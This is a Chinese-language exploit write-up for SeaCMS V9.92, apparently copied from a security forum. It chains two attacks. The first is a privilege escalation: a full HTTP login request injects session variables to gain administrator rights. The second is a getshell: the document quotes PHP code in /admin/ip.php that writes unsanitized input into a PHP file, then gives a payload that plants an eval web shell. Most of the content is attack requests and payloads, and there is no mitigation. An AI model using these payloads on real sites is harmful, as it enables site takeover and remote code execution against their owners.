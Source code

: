 # Seacms V9.92 越权+Getshell

> 原文：[https://www.zhihuifly.com/t/topic/3119](https://www.zhihuifly.com/t/topic/3119)

# Seacms V9.92 越权+Getshell

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 越权

#### 1、首先注册一个普通用户

#### 2、burp抓包改包，下面是发送payload

```
POST /login.php HTTP/1.1
Host: 0-sec.org
Content-Length: 49
Cache-Control: max-age=0
Origin: http://192.168.8.143
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://192.168.8.143/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9smu8an6nvbrqasp5m0o4bmts7
Connection: close `dopost=login&userid=test&pwd=123456&validate=djyf&_SESSION[sea_admin_id]=1&_SESSION[sea_ckstr]=djyf` 
```

#### 3、 登陆后台页面，可以发现管理员账户变成-1了,也同时拥有管理员的权限

### getshell

`/admin/ip.php`

```
if($action=="set")
{
    $v= $_POST['v'];
    $ip = $_POST['ip'];
    $open=fopen("../data/admin/ip.php","w" );
    $str='<?php ';
    $str.='$v = "';
    $str.="$v";
    $str.='"; ';
    $str.='$ip = "';
    $str.="$ip";
    $str.='"; ';
    $str.=" ?>";
    fwrite($open,$str);
    fclose($open);
    ShowMsg("成功保存设置!","admin_ip.php");
    exit; 
```

我们再去看一下ip.php格式

```
<?php $v = "0"; $ip = " ";  ?> 
```

我们可以构造一下,然后保存

```
*;phpinfo();// 
```

```
";@eval($_POST[pp]);// 
```

![image](img/2207e9fd0af5e1f5434b8e812720c669.png)